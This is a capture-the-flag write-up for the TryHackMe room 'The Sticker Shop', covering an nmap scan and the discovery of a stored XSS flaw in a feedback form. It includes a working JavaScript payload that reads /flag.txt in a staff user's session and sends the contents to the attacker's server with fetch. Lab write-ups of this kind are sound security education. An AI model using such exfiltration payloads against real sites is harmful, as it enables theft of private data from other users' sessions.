 ```yaml
---
title: "TryHackMe: The Sticker Shop"
author: jaxafed
categories: [TryHackMe]
tags: [web, xss, js]
render_with_liquid: false
media_subpath: /images/tryhackme_the_sticker_shop/
image:
  path: room_image.webp
---
```


**The Sticker Shop** was a very simple room about exploiting a **Cross-Site Scripting (XSS)** vulnerability to steal the contents of a page and retrieve the flag.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/thestickershop){: .center }

## Initial Enumeration

### Nmap Scan

We start with an `nmap` scan.

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.222.154
Nmap scan report for 10.10.222.154
Host is up (0.082s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.8.10
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are two ports open:

- **22** (`SSH`)  
- **8080** (`HTTP`)

### Web 8080

Visiting `http://10.10.222.154:8080/`, we see a simple page displaying some stickers and their prices.

![Web 8080 Index](web_8080_index.webp){: width="1200" height="600"}

While there is no functionality to purchase the stickers, it appears we can leave feedback at `http://10.10.222.154:8080/submit_feedback`.

![Web 8080 Submit Feedback](web_8080_submit_feedback.webp){: width="1200" height="600"}

After submitting feedback, we receive a message stating that a staff member will review it shortly.

![Web 8080 Submit Feedback Message](web_8080_submit_feedback_message.webp){: width="1200" height="600"}

The room also specifies that our goal is to read the flag located at `http://10.10.222.154:8080/flag.txt`. However, making a request to this endpoint returns a `401 Unauthorized` response.

![Web 8080 Flag](web_8080_flag.webp){: width="1200" height="600"}

## Obtaining the Flag

### Discovering the XSS

Going back to the **Feedback** page and testing the form for Cross-Site Scripting (**XSS**) with a simple payload like `<img src="http://10.11.72.22/test" />` and starting a basic HTTP server to confirm the vulnerability, we can see that we are successful as we see a request in our web server.

![Web 8080 Submit Feedback Xss](web_8080_submit_feedback_xss.webp){: width="1200" height="600" }

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.222.154 - - [01/Dec/2024 06:44:39] code 404, message File not found
10.10.222.154 - - [01/Dec/2024 06:44:39] "GET /test HTTP/1.1" 404 -
```

### Stealing Page Contents

Our goal is still to access the contents of the `http://10.10.222.154:8080/flag.txt` page, and while we don't have access to it, we can consider the possibility that the staff user might.

Since we already discovered a Cross-Site Scripting (**XSS**) vulnerability potentially affecting a staff user that allows us to run `JavaScript` code in their session, we can exploit this vulnerability to obtain the contents of the `http://10.10.222.154:8080/flag.txt` page.

To achieve this, we will first write a `JavaScript` code that makes a request to the `/flag.txt` endpoint and sends the contents back to our server upon receiving a response, as shown below:

```js
var target_url = "/flag.txt";
var my_server = "http://10.11.72.22/data";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(my_server + "?" + xhr.responseText)
    }
}
xhr.open('GET', target_url, true);
xhr.send(null);
```

Now, all we have to do is send our payload wrapped in `script` tags through the feedback form to make it execute in the staff user's session.

![Web 8080 Submit Feedback XSS Two](web_8080_submit_feedback_xss2.webp){: width="1200" height="600"}

After submitting the feedback with the payload, as we can see, we receive the flag on our web server and complete the room.

```console
10.10.222.154 - - [01/Dec/2024 06:59:29] code 404, message File not found
10.10.222.154 - - [01/Dec/2024 06:59:29] "GET /data?THM{83[REDACTED]e6} HTTP/1.1" 404 -
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
